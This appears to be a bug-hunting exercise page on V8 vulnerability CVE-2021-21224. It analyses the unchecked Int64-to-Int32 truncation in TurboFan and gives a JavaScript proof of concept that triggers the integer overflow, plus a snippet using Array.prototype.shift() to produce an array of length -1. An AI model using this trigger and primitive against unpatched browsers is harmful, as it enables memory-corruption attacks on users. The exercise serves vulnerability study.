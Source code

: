 # Exercise 2

In LEVEL 1, we can relay on Details and just to search for the func which Details mentioned. It is far away from the real bug hunting scene.

LEVEL 2 we do the same as LEVEL 1 without the help of Details.

But the bug report need Poc to assist developer reproduce the vulnerability, and know exactly what cause this bug. So LEVEL 3 need we construct Poc by ourselves.

## CVE-2021-21224
I sugget you don't search any report about it to prevents get too much info like patch.



### Details

In level 3, we do it without the help of Details


---------

<details>
  <summary>For more info click me! But you'd better not do this</summary>

  https://bugs.chromium.org/p/chromium/issues/detail?id=1195777

</details>

--------

### Set environment

Welcome to V8

if you have fetched v8, just
```sh
git reset --hard f87baad0f8b3f7fda43a01b9af3dd940dd09a9a3 
gclient sync
```
But if you not
```sh
# get depot_tools
git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git
# add to env var
echo 'export PATH=$PATH:"/path/to/depot_tools"' >> ~/.bashrc
# get v8 source code
fetch v8
# chenge to right commit
cd v8
git reset --hard f87baad0f8b3f7fda43a01b9af3dd940dd09a9a3
# download others
gclient sync
```



### Related code

src/compiler/representation-change.cc

tips: Integer overflow

### Do it
Do this exercise by yourself, If you find my answer have something wrong, please correct it.


---------

<details>
  <summary>My answer</summary>

  ```c++
// The {UseInfo} class is used to describe a use of an input of a node.
//
// This information is used in two different ways, based on the phase:
//
// 1. During propagation, the use info is used to inform the input node
//    about what part of the input is used (we call this truncation) and what
//    is the preferred representation. For conversions that will require
//    checks, we also keep track of whether a minus zero check is needed.
//
// 2. During lowering, the use info is used to properly convert the input
//    to the preferred representation. The preferred representation might be
//    insufficient to do the conversion (e.g. word32->float64 conv), so we also
//    need the signedness information to produce the correct value.
//    Additionally, use info may contain {CheckParameters} which contains
//    information for the deoptimizer such as a CallIC on which speculation
//    should be disallowed if the check fails.
  ```

  When do truncation we need check the `{CheckParameters}` like `use_info.type_check() == TypeCheckKind::kSignedSmall`, and if the check fails will trigger deoptimize.

  ```c++
enum class TypeCheckKind : uint8_t {
  kNone,
  kSignedSmall,
  kSigned32,
  kSigned64,
  kNumber,
  kNumberOrBoolean,
  kNumberOrOddball,
  kHeapObject,
  kBigInt,
  kArrayIndex
};
  ```

  The reasons for bug is missing a check of `use_info`
  ```c++
Node* RepresentationChanger::GetWord32RepresentationFor(
    Node* node, MachineRepresentation output_rep, Type output_type,
    Node* use_node, UseInfo use_info) {
  // Eagerly fold representation changes for constants.
  switch (node->opcode()) {
    case IrOpcode::kInt32Constant:
    case IrOpcode::kInt64Constant:
    case IrOpcode::kFloat32Constant:
    case IrOpcode::kFloat64Constant:
      UNREACHABLE();
    case IrOpcode::kNumberConstant: {
      double const fv = OpParameter<double>(node->op());
      if (use_info.type_check() == TypeCheckKind::kNone ||
          ((use_info.type_check() == TypeCheckKind::kSignedSmall ||
            use_info.type_check() == TypeCheckKind::kSigned32 ||
            use_info.type_check() == TypeCheckKind::kNumber ||
            use_info.type_check() == TypeCheckKind::kNumberOrOddball ||
            use_info.type_check() == TypeCheckKind::kArrayIndex) &&
           IsInt32Double(fv))) {
        return MakeTruncatedInt32Constant(fv);
      }
      break;
    }
    default:
      break;
  }

  // Select the correct X -> Word32 operator.
  const Operator* op = nullptr;
  if (output_type.Is(Type::None())) {
    // This is an impossible value; it should not be used at runtime.
    return jsgraph()->graph()->NewNode(
        jsgraph()->common()->DeadValue(MachineRepresentation::kWord32), node);
  [ ... ]
  } else if (output_rep == MachineRepresentation::kWord8 ||
             output_rep == MachineRepresentation::kWord16) {
    DCHECK_EQ(MachineRepresentation::kWord32, use_info.representation());
    DCHECK(use_info.type_check() == TypeCheckKind::kSignedSmall ||
           use_info.type_check() == TypeCheckKind::kSigned32);
    return node;
  } else if (output_rep == MachineRepresentation::kWord64) {
    if (output_type.Is(Type::Signed32()) ||
        output_type.Is(Type::Unsigned32())) {
      op = machine()->TruncateInt64ToInt32();     [1]
    } else if (output_type.Is(cache_->kSafeInteger) &&
               use_info.truncation().IsUsedAsWord32()) {
      op = machine()->TruncateInt64ToInt32();
  ```
  [1] Truncate Int64 To Int32 without check. This lead to Integer overflow.

  We should search for how can we insert one `TruncateInt64ToInt32` node. I have no idea about it but I guess `kWord64` var as `Signed32` and `Unsigned32` can convert from Int64 to Int32, and we can set 0xffffffff for y(Word32) and if convert to int32 can be -1.

  **Poc**
  ```js
function foo(a)
{
    let x = -1;
    if(a) x = 0xffffffff;
    return -1 < Math.max(x,0);
}

console.log(foo(true)) //prints true
for (let i = 0; i < 0x10000; ++i) foo(false)
console.log(foo(true)) //prints false
  ```
  When construct Poc of turbofan, we need analysis turbolizer or break at `../../src/compiler/representation-change.cc:853` to know whether we get kWord64 and convert to int32. I get this poc form [there](https://iamelli0t.github.io/2021/04/20/Chromium-Issue-1196683-1195777.html#rca-of-issue-1195777)

  checkbounds—elimination had been bannde and `Array.prototype.shift()` is a trick which has been patched now, but this commit can trigger it, we can make array length == -1 by shift
  ```js
let vuln_array = new Array(0 - Math.max(0, x));
vuln_array.shift();
  ```

  full exp can be found [here](https://bugs.chromium.org/p/chromium/issues/detail?id=1195777#c15)

</details>

--------
